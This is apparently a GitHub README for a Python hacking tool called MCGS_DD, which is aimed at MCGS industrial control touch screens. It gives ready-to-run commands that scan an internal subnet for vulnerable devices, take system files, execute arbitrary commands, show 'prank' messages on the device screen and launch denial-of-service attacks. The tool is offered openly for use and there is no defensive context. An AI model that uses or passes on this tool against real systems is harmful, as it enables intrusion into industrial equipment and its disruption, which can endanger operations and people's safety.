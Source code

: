   <div align="center">
 <p align="center">
 <img title="MCGS" src='https://img.shields.io/badge/MCGS_DDOS-1.0.0-brightgreen.svg' />
 <img title="MCGS" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="MCGS" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="MCGS" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="MCGS" src='https://img.shields.io/badge/-Linux-F16061?logo=linux&logoColor=000'/>
 <img title="MCGS" src='https://img.shields.io/badge/-Windows-F16061?logo=windows&logoColor=000'/> 
</p>

   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>
        Attack industrial network devices MCGS
    </th>
    
  </tr>
 </table>
</div>

# industrial control equipment

  ![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/mcgs.png)  

  ![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/mcgs2.png)  


# usage method
  * View help information

      ```#python3 MCGS_DD.py -h```

  ![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/help.png)  

# Scan for vulnerabilities in the internal network of industrial control devices (MCGS touch screen)

  ```#python3 MCGS_DD.py -scan 192.168.100.0/24```

  ![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/scan.png)  

# Attack industrial control devices and obtain device system files

```#python3 MCGS_DD.py -rh 192.168.100.3```

  ![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/result.png)  
  
# Arbitrary command execution

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd ipconfig```
  
![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/ipconfig.png)  

_PS:You can use the (- echo) parameter to print the results on the MCGS touch screen, which is a prank_

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd Martin_Hacking...........[X_X] -echo```
  
![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/hacking.png)  

# DDOS attacks

```#python3 MCGS_DD.py -rh 192.168.100.3 -cmd Martin_Hacking...........[X_X] -echo -dd```
  
![图片名称](https://github.com/MartinxMax/MCGS_DD/blob/master/PT/ddos.png)  
